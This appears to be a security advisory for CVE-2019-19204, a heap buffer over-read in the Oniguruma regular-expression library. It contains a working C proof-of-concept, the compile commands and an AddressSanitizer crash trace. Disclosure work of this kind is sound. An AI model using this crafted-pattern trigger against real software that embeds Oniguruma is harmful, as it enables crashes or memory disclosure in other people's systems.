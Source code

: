# CVE-2019-19204
An issue was discovered in Oniguruma 6.x before 6.9.4_rc2. In the function fetch_interval_quantifier (formerly known as fetch_range_quantifier) in regparse.c, PFETCH is called without checking PEND. This leads to a heap-based buffer over-read.

**Researcher: ManhND of The Tarantula Team, VinCSS (a member of Vingroup)**

# What is Oniguruma
Oniguruma by K. Kosako is a BSD licensed regular expression library that supports a variety of character encodings. The Ruby programming language, in version 1.9, as well as PHP's multi-byte string module (since PHP5), use Oniguruma as their regular expression engine. It is also used in products such as Atom, GyazMail Take Command Console, Tera Term, TextMate, Sublime Text and SubEthaEdit.

# Proof of Concept

Source code:

```C++
#include <stdlib.h>
#include <string.h>
#include "oniguruma.h"

int main(int argc, char* argv[])
{
  int r;
  regex_t* reg;
  OnigErrorInfo einfo;

  char *pattern = (char*)malloc(6);
  memcpy(pattern, "_\\{21\\", 6);
  char *pattern_end = pattern + 6;
  
  

  OnigEncodingType *enc = ONIG_ENCODING_ASCII;


  onig_initialize(&enc, 1);
  r = onig_new(&reg, (unsigned char *)pattern, (unsigned char *)pattern_end,
               ONIG_OPTION_NONE, enc, ONIG_SYNTAX_GREP, &einfo);
  if (r == ONIG_NORMAL) {
    onig_free(reg);
  }

  onig_end();
  return 0;
}
```

Compilation of Oniguruma and the PoC:

```Console
./configure CC=gcc CFLAGS="-m32 -O0 -ggdb3 -fsanitize=address" LDFLAGS="-m32 -O0 -ggdb3 -fsanitize=address" && make -j4
gcc -fsanitize=address -O0 -I./oniguruma-gcc-asan/src -ggdb3 poc-fetch_interval_quantifier-2-PFETCH.c ./oniguruma-gcc-asan/src/.libs/libonig.a -o PoC
```

Crash log:

```Console
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma# ./PoC
=================================================================
==6418==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60200000eff6 at pc 0x00000044cb35 bp 0x7ffde176e0e0 sp 0x7ffde176e0d0
READ of size 1 at 0x60200000eff6 thread T0
    #0 0x44cb34 in onigenc_single_byte_mbc_to_code /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regenc.c:704
    #1 0x4683a0 in fetch_interval_quantifier /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:4182
    #2 0x46e79a in fetch_token /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:5009
    #3 0x481e9f in parse_exp /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:7974
    #4 0x483de7 in parse_branch /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8303
    #5 0x48431b in parse_alts /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8354
    #6 0x484808 in parse_regexp /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8413
    #7 0x484db1 in onig_parse_tree /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regparse.c:8468
    #8 0x423c6b in onig_compile /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regcomp.c:6694
    #9 0x424e53 in onig_new /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regcomp.c:6964
    #10 0x401265 in main /root/fuzz/fuzz_oniguruma/poc-fetch_interval_quantifier-2-PFETCH.c:27
    #11 0x7f18b06ad82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #12 0x401048 in _start (/root/fuzz/fuzz_oniguruma/PoC+0x401048)

0x60200000eff6 is located 0 bytes to the right of 6-byte region [0x60200000eff0,0x60200000eff6)
allocated by thread T0 here:
    #0 0x7f18b0aef602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)
    #1 0x4011e2 in main /root/fuzz/fuzz_oniguruma/poc-fetch_interval_quantifier-2-PFETCH.c:17
    #2 0x7f18b06ad82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)

SUMMARY: AddressSanitizer: heap-buffer-overflow /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan/src/regenc.c:704 onigenc_single_byte_mbc_to_code
Shadow bytes around the buggy address:
  0x0c047fff9da0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9db0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9dc0: fa fa 04 fa fa fa 00 00 fa fa 00 04 fa fa 00 00
  0x0c047fff9dd0: fa fa 06 fa fa fa 00 00 fa fa 06 fa fa fa 00 00
  0x0c047fff9de0: fa fa 04 fa fa fa 00 00 fa fa 00 01 fa fa 00 00
=>0x0c047fff9df0: fa fa 00 00 fa fa 05 fa fa fa 00 00 fa fa[06]fa
  0x0c047fff9e00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e10: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e20: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e30: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9e40: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Heap right redzone:      fb
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack partial redzone:   f4
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
==6418==ABORTING
```
# Root cause

Referenced source code version: **ca7ddbd858dcdc8322d619cf41ab125a2603a0d4** At regparse.c:4182 in fetch_interval_quantifier, PFETCH is called without checking PEND.

```C++
if (IS_SYNTAX_OP(env->syntax, ONIG_SYN_OP_ESC_BRACE_INTERVAL)) {
    if (c != MC_ESC(env->syntax)) goto invalid;
    PFETCH(c);
}
```

This leads to heap-buffer-overflow
